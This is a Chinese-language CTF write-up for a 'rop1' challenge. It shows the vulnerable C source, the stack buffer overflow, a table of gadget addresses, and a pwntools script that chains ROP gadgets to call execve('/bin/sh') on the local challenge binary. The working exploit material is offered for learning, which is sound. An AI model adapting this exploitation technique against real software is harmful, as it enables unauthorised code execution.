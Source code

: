 ```yaml
---
title: lys rop1 Writes up
published: 2024-08-07
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```


### Recon

file:
![image](https://hackmd.io/_uploads/ByhvUZbqR.png)

checksec:
![image](https://hackmd.io/_uploads/SJH9IbZcR.png)

source.c:

```c=
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

char name[0x100];

size_t readbuf(char *buf, size_t len)
{
    size_t i=0;
    while(i<len){
        if(read(0,&buf[i],1)!=1){
            break;
        }
        if(buf[i]=='\n'){
            buf[i] = 0;
            break;
        }
        i++;
    }
    return i;
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    //printf("Gift: ")
    printf("What is your name? ");
    readbuf(name, 0x100);
    printf("Hello, %s\n", name);
    char buf[0x10];
    printf("You have a buffer overflow vuln: ");
    readbuf(buf, 0x100);
    return 0;
}
```
我們發現在 ```"You have a buffer overflow vuln: "```的 buf 大小是 10 ，但是他用 readbuf(buf,0x100) 去讀，所以導致了 buffer overflow 的問題，再來，題目本身是 statically linked ， 所以我們可以很方便的去找 gadget 來用 owob

## exploit 

我們的目的是要執行 execve 這個 systemcall ，所以我們要達成下面的條件

|  暫存器   | 值  |
|  ----  | ----  |
| rax  | 0x3b |
| rdi  | '/bin/sh'的位置 |
| rsi  | 0 |
| rdx  | 0 |

經過一番尋找之後，我們成功湊齊了所有必要的 gadget ，但是有一個問題是 pop rdx 的gadget 不是那麼乾淨，那我們可以用 pop rdx ; pop rbx 去解決它 ， 最後一個問題是，我們該如何找到 name 也就是我們執行 '/bin/sh' 應該要有的位置， 其實只要用 ida 點下去那一個 function 就找到了 owob


![image](https://hackmd.io/_uploads/ByzK6ZZ90.png)


|  暫存器   | 值  |
|  ----  | ----  |
| rax  | 0x44fd87 |
| rdi  | 0x401f4f+name_addr |
| rsi  | 0x409f7e |
| rdx_rbx  | 0x485bab |
| syscall | 0x401d04|


exp.py:

``` py=
from pwn import *

context(arch="amd64")

r=process('./rop1')


p=''

name=p64(0x4C7300)
pop_rax=p64(0x000000000044fd87)+p64(0x3b)
pop_rdi=p64(0x0000000000401f4f)+name
pop_rsi=p64(0x0000000000409f7e)+p64(0x0)
pop_rdx_pop_rbx=p64(0x0000000000485bab)+p64(0x0)+p64(0x0)
syscall=p64(0x0000000000401d04)

p+=pop_rax+pop_rdi+pop_rsi+pop_rdx_pop_rbx+syscall

r.sendlineafter('?','/bin/sh')

r.sendlineafter(':','a'*0x18+p)

r.interactive()
```

### pwned!

![image](https://hackmd.io/_uploads/S10V5WWqR.png)

